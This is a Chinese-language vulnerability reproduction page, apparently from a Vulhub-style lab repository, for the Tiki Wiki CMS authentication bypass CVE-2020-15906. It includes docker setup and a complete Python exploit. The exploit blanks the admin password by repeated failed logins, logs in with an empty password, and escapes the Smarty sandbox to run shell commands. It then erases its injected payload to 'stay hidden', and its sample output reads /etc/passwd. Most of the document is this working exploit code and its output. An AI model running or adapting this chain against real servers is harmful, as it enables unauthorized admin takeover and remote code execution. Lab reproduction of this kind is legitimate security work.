

# Tiki Wiki CMS Groupware 认证绕过漏洞 CVE-2020-15906

## 漏洞描述

Tiki Wiki CMS Groupware或简称为Tiki（最初称为TikiWiki）是一种免费且开源的基于Wiki的内容管理系统和在线办公套件。在如下这些版本21.2, 20.4, 19.3, 18.7, 17.3, 16.4前存在一处逻辑错误，管理员账户被爆破60次以上时将被锁定，此时使用空白密码即可以管理员身份登录后台。

参考链接：

- https://info.tiki.org/article473-Security-Releases-of-all-Tiki-versions-since-16-3
- https://github.com/S1lkys/CVE-2020-15906
- http://packetstormsecurity.com/files/159663/Tiki-Wiki-CMS-Groupware-21.1-Authentication-Bypass.html
- https://srcincite.io/pocs/cve-2021-26119.py.txt

## 环境搭建

Vulhub执行如下命令启动一个Tiki Wiki CMS 21.1：

> 需要通过`dos2unix docker-entrypoint.sh`命令将其转换成为unix格式文件。

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/tiki-login_scr.php`可以看到其欢迎页面。

## 漏洞复现

我们可以使用https://srcincite.io/pocs/cve-2021-26119.py.txt中的[POC](https://github.com/vulhub/vulhub/blob/master/tikiwiki/CVE-2020-15906/poc.py)进行复现。该POC先使用CVE-2020-15906绕过认证，获取管理员权限；再使用Smarty的沙盒绕过漏洞（CVE-2021-26119）于后台执行任意命令：

```
python poc.py your-ip:8080 / id
```



注意，受到漏洞原理的影响，执行该POC会导致管理员账户被锁定。

## 漏洞POC

```python
#!/usr/bin/env python3
"""
Tiki Wiki CMS GroupWare Serverside Template Injection Remote Code Execution Vulnerability
This is a demonstration of CVE-2021-26119 (Smarty Template Engine template_object Sandbox Escape PHP Code Injection)
Written by: Steven Seeley of Qihoo 360 Vulcan Team
Exploit tested against: Tiki Wiki 20.3 (Tarazed)

Bug 1: CVE-2020-15906
    - An unauthenticated user can bypass the authentication by bruteforcing the admin account > 50 times and login with a blank password
    - Works on: <= 21.1 (UY_Scuti)
    
Bug 2: CVE-2021-26119 
    - An admin user can trigger a serverside template injection and gain remote code execution by escaping the sandbox of the Smarty Template Engine by leveraging the 'template_object' property
    - Works on: <= 22.2 (Corona_Borealis) and impacts Smarty <= 3.1.38 (latest)

# Notes

- *WARNING* This exploit will lock out the administrator account
- It was possible in older versions of Tiki Wiki (including 20.3) that you could:

  1. Edit Smarty templates with a user that had the 'tiki_p_edit_templates' privilege, but Tiki clued into this and has since disabled this 'feature' by default, see using [Risky preferences](https://doc.tiki.org/Risky-Preferences)
  2. Disable the Smarty sandbox entirely by unchecking the "Smarty Security" checkbox in the general security tab which is no longer possible.

  However it's still possible for an admin (or user with the 'tiki_p_admin' permission assigned) to add Smarty template syntax to the 'feature_custom_html_head_content' option under [Customization](http://doc.tiki.org/Customization) in the [Look and Feel](http://doc.tiki.org/Look-and-Feel) control panel menu. This is enough for attackers to escape the Smarty sandbox leveraging either CVE-2021-26119 or CVE-2021-26120 and execute arbitrary remote code.

# Example

researcher@incite:~/tiki$ ./poc.py
(+) usage: ./poc.py <host> <path> <cmd>
(+) eg: ./poc.py 192.168.75.141 / id
(+) eg: ./poc.py 192.168.75.141 /tiki-20.3/ id

researcher@incite:~/tiki$ ./poc.py 192.168.75.141 /tiki-20.3/ "id;uname -a;pwd;head /etc/passwd"
(+) blanking password...
(+) admin password blanked!
(+) getting a session...
(+) auth bypass successful!
(+) triggering rce...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html/tiki-20.3
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

# References

- Maximilian Barz's poc at https://github.com/S1lkys/CVE-2020-15906
"""

import requests
import sys
import re

def auth_bypass(s, t, d):
    h = { "referer" : t }
    d["ticket"] = get_ticket(s, "%stiki-login.php" % t)
    d["pass"] = "" # auth bypass is here
    r = s.post("%stiki-login.php" % t, data=d, headers=h)
    r = s.get("%stiki-admin.php" % t)
    assert ("You do not have the permission that is needed" not in r.text), "(-) authentication bypass failed!"

def black_password(s, t, d):
    uri = "%stiki-login.php" % t
    # setup cookies here
    s.get(uri)
    ticket = get_ticket(s, uri)
    # crafted especially so unsuccessful_logins isn't recorded
    for i in range(0, 51):
        r = s.post(uri, d)
        if("Account requires administrator approval." in r.text):
            print("(+) admin password blanked!")
            return
    raise Exception("(-) auth bypass failed!") 

def get_ticket(s, uri):
    h = { "referer" : uri }
    r = s.get(uri)
    match = re.search('class="ticket" name="ticket" value="(.*)" \/>', r.text)
    assert match, "(-) csrf ticket leak failed!"
    return match.group(1)

def trigger_or_patch_ssti(s, t, c=None):
    # CVE-2021-26119
    p = { "page": "look" }
    h = { "referer" : t }
    bypass = "startrce{$smarty.template_object->smarty->disableSecurity()->display('string:{shell_exec(\"%s\")}')}endrce" % c
    d = {
        "ticket" : get_ticket(s, "%stiki-admin.php" % t),
        "feature_custom_html_head_content" : bypass if c else '',
        "lm_preference[]": "feature_custom_html_head_content"
    }
    r = s.post("%stiki-admin.php" % t, params=p, data=d, headers=h)
    r = s.get("%stiki-index.php" % t)
    if c != None:
        assert ("startrce" in r.text and "endrce" in r.text), "(-) rce failed!"
        cmdr = r.text.split("startrce")[1].split("endrce")[0]
        print(cmdr.strip())

def main():
    if(len(sys.argv) < 4):
        print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.141 / id"% sys.argv[0])
        print("(+) eg: %s 192.168.75.141 /tiki-20.3/ id" % sys.argv[0])
        return
    p = sys.argv[2]
    c = sys.argv[3]
    p = p + "/" if not p.endswith("/") else p
    p = "/" + p if not p.startswith("/") else p
    t = "http://%s%s" % (sys.argv[1], p)
    s = requests.Session()
    print("(+) blanking password...")
    d = {
        'user':'admin', 
        'pass':'trololololol',
    }
    black_password(s, t, d)
    print("(+) getting a session...")
    auth_bypass(s, t, d)
    print("(+) auth bypass successful!")
    print("(+) triggering rce...\n")
    # trigger for rce
    trigger_or_patch_ssti(s, t, c)
    # patch so we stay hidden
    trigger_or_patch_ssti(s, t)

if __name__ == '__main__':
    main()
```

